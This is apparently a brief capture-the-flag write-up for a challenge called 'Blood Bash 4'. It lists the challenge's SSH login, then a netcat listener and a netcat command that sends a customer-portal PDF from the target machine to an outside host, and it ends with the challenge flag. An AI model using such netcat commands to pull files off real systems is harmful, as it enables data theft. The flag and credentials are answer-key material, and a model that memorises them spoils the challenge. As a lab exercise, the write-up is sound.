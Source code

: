 # Blood Bash 4

*A sensitive file from De Monne was exfiltrated by mort1cia. It contains data relating to a new web portal they're creating for their consumers. Read the contents of the file and return the flag as `flag{flag_goes_here}`.*

*Username: `bl0ody_mary` Password: `d34df4c3`*

*bloodbash.deadface.io:22*

---

x

```shell
root@VM-8-4-centos: ~$ nc -l 6379 > a.pdf
```

使用

```shell
bl0ody_mary@5349049d19cd:~$ nc -w 10 xx.xx.xxx.xxx 8000 < De\ Monne\ Customer\ Portal.pdf
```

**flag:**`flag{deM0nn3_dat4_4_us}`



